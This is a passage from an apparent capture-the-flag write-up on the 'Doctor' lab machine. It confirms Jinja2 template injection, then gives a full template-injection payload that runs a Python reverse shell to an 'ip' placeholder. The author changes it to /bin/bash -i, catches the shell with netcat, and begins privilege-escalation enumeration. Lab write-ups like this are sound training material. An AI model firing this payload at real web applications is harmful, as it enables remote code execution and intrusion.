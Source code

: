 And I see that the injection has worked. Since it returned 7777777 instead of 49, I know it's Jinja2 and not Twig.

I google Jinja RCE and find https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Server%20Side%20Template%20Injection/README.md#jinja2---remote-code-execution

which leads to 

`{% for x in ().__class__.__base__.__subclasses__() %}{% if "warning" in x.__name__ %}{{x()._module.__builtins__['__import__']('os').popen("python3 -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect((\"ip\",4444));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call([\"/bin/cat\", \"flag.txt\"]);'").read().zfill(417)}}{%endif%}{% endfor %}`


I change the ip and port to my connection information, and then change /bin/cat flag.txt to /bin/bash -i to give us an interactive bash shell.

```
root@kali:/home/kali/htb/Doctor# nc -nlvp 1337
Listening on 0.0.0.0 1337
Connection received on 10.129.118.253 52836
bash: cannot set terminal process group (848): Inappropriate ioctl for device
bash: no job control in this shell
web@doctor:~$ whoami
whoami
web
web@doctor:~$ id
id
uid=1001(web) gid=1001(web) groups=1001(web),4(adm)
web@doctor:~$ sudo -l
sudo -l
sudo: a terminal is required to read the password; either use the -S option to read from standard input or configure an askpass helper
web@doctor:~$ 
```

I do a cursory glance at the flask config files, but I don't really find anything amazing.

I upload https://github.com/diego-treitos/linux-smart-enumeration to the target and start enumerating.

On level 1 I see:

```
00:00    15664     root python3 /opt/clean/cleandb.py
00:00    15663     root /bin/sh -c /opt/clean/cleandb.py    
```

under processes.

But I do not have write permissions:

```
web@doctor:/opt/clean$ ls -la
ls -la
total 52
drwxrwxr-x 2 root root  4096 Sep  7  2020 .
drwxr-xr-x 4 root root  4096 Sep  6  2020 ..
-rwxr-xr-x 1 root root   211 Sep  6  2020 cleandb.py
-rwxr-xr-x 1 root root   129 Jul 26  2020 clean.py
-rw-r--r-- 1 root root 36864 Sep  6  2020 site.db
web@doctor:/opt/clean$ cat cleandb.py
cat cleandb.py
#!/usr/bin/env python3
import os

os.system('rm /home/web/blog/flaskblog/site.db')
os.system('cp /opt/clean/site.db /home/web/blog/flaskblog/site.db')
os.system('chown web:web /home/web/blog/flaskblog/site.db')
```